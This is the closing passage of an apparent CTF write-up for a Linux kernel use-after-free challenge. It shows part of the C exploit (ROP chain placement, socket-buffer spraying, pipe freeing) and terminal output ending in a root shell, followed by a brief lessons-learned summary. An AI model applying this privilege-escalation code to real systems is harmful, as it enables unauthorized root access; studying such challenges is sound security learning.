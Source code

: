 ```c
    memcpy(buffer+0xc6,rop_chain,sizeof(rop_chain));
    for(int i = 0 ; i< 0x4 ; i++)
        for(int j = 0 ; j < 0x20 ; j++)
            skbuffSend(sk_skt[i][0],buffer,0x800-320);

    for(int i = 0x20 ; i < 0x40; i++){
        tainRegs(base,cur);
        close(pipe_fd[i][0]);
        close(pipe_fd[i][1]);
    }
    debug();
}
```


```
ctf@linz:~$ /exp
[*] Status has been saved.
[+] Finish: initSocketArray
[+] Got It
[!] 0xffffa0f942698000
[+] 0xffffea98c0090bc0
[!] 0xffffffff94400000
[!] DEBUG

[+] Libx: SegFault Handler is spwaning a shell...
root@linz:/home/ctf$ id
uid=0(root) gid=0(root)
root@linz:/home/ctf$ 
```

# 0x06 Summary

- Practiced the UAF
- Noticed that page allocator could be used to enable different order cross cache.
 
[0]: https://github.com/sajjadium/ctf-archives/tree/0610daa3bdd02bc9056b84fdd69f96132ce27c2f/ctfs/CrewCTF/2024/pwn/KUlele
[1]: TBD